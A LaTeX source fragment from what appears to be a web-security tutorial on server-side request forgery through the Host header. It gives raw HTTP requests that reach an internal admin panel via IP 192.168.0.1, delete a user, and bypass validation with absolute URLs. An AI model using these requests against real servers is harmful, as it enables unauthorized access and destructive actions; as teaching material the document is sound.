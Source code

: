\documentclass[12pt,a4paper]{article}
\begin{document}
\subsubsection{Exploitation Example}
\begin{lstlisting}[caption=SSRF to Admin Panel]
# Step 1: Discover internal IP
GET https://vulnerable-website.com/ HTTP/1.1
Host: 192.168.0.1

# Step 2: Access admin panel
GET https://vulnerable-website.com/admin HTTP/1.1
Host: 192.168.0.1

# Step 3: Perform admin actions
POST https://vulnerable-website.com/admin/delete HTTP/1.1
Host: 192.168.0.1
Cookie: session=YOUR-SESSION
Content-Type: application/x-www-form-urlencoded

csrf=TOKEN&username=carlos
\end{lstlisting}

\subsection{SSRF via Absolute URL and Flawed Request Line}

\subsubsection{Absolute URL SSRF}
When a server validates the absolute URL in the request line instead of the Host header, you can manipulate the Host header while maintaining access.

\begin{lstlisting}[caption=Absolute URL Attack]
# Normal request (validated)
GET / HTTP/1.1
Host: vulnerable.com

# Absolute URL bypass
GET https://vulnerable.com/ HTTP/1.1
Host: 192.168.0.1

# The server validates the absolute URL
# But routes based on the Host header
# Allows internal access while maintaining validation
\end{lstlisting}

\subsubsection{Malformed Request Line SSRF}
Custom proxies may fail to properly validate the request line, allowing unusual input.
\end{document}
